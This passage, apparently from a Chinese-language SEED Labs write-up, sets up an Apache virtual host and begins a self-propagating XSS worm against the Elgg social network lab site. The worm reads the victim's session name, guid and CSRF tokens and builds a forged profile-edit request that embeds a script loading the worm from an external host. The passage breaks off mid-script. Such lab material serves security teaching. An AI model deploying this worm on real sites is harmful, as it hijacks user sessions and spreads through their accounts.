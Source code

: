 添加如下内容：

```apl
ServerName		http://www.example32.com
DocumentRoot	/var/www/example32
```

![6-7](../image/6-7.png)

重启 apache2.

```bash
service apache2 restart
```

创建对应的脚本文件：

```bash
mkdir /var/www/example32
nano /var/www/example32/xssworm.js
```

`xssworm.js`：

```javascript
window.onload = function(){
    var wormCode = encodeURIComponent(
	"<script type=\"text/javascript\" " +
	"id =\"worm\" " +
	"src=\"http://www.example32.com/xssworm.js\"> " +
	"</" + "script>");
    var userName="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    var content=token + ts + userName + "&description=" + wormCode + "&accesslevel[description]=2" +                                             				"&briefdescription=alice%20is%20my%20hero&accesslevel[briefdescription]=2" + guid;
    var samyGuid=59;
    var sendurl="http://www.seed-server.com/action/profile/edit";

```